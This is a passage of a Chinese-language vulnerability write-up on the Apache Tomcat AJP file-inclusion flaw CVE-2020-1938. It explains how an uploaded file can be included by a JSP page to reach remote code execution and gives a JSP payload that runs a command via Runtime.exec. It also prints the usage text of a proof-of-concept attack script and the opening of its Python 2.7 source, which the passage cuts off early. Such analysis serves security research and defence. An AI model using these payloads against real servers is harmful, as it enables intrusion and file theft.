 **后话**

我试了一下jsp的文件包含，这个demo下也是可以的，所以实际上RCE就是jsp的文件包含搞的鬼，要先上传一个文件，这个文件路径可被包含，然后读取模版解析，最后RCE。

    Copy to clipboard//1.jsp
    <%@ page language="java" import="java.util.*" pageEncoding="UTF-8" %>
    <%@ include file="1.txt" %>

    //1.txt
    <%@ Runtime.getRuntime().exec("open /System/Applications/Calculator.app");%>

另外前面可能有师傅会问为什么是GET，原因是下面这个POC有`forwardrequest 2`，根据AJP数据包格式`第6个字节(02)代表是Get请求`。另外在Tomcat中也有相关映射关系，在
**AjpProcessor** 做 **prepareRequest**
处理的时候会根据字节选择相关的请求方式。

![](resource/(CVE-2020-1938)ApacheTomcat文件包含漏洞/media/rId46.png)

### poc

    (py27)> python .\cve-2020-1938-poc.py -h
    usage: cve-2020-1938-poc.py [-h] [-p PORT] [-w WEBAPP] [-f FILE] [-l] target

    positional arguments:
      target                Hostname or IP to attack

    optional arguments:
      -h, --help            show this help message and exit
      -p PORT, --port PORT  AJP port to attack (default is 8009)
      -w WEBAPP, --webapp WEBAPP
                            Which webapp to attack (default is ROOT
      -f FILE, --file FILE  file path :(WEB-INF/web.xml)
      -l, --lfi             local file include

### python2.7

    #!/usr/bin/env python
    # CNVD-2020-10487  Tomcat-Ajp lfi
    # Based on: https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi/
    #
    # Some references:
    # https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html
    import socket
    import struct
    import argparse


    def pack_string(s):
        if s is None:
            return struct.pack(">h", -1)
        l = len(s)
        return struct.pack(">H%dsb" % l, l, s.encode('utf8'), 0)

